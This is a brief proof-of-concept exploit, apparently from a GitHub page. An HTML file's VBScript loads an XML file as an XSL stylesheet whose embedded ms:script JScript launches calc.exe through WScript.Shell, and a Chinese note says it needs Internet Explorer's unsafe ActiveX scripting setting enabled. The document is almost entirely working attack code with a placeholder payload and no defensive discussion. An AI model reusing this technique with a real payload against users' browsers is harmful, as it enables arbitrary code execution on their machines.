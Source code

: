 poc.html:
---
```
<script type="text/vbscript">
Sub Dummy()
Set XML = CreateObject("Microsoft.XMLDOM")
XML.async = False
Set xsl = XML
xsl.Load "xml.xml"
XML.transformNode xsl
End Sub
Dummy()
</script>
```

xml.xml
---
```
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text" />
 <ms:script implements-prefix="user" language="JScript">
 <![CDATA[
 var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
 ]]> 
 </ms:script>
</stylesheet>
```

前提配置：
---
IE安全设置-Internet区域，设置“对未标记为可安全执行脚本的ActiveX空间初始化并执行”为启用（不安全）。
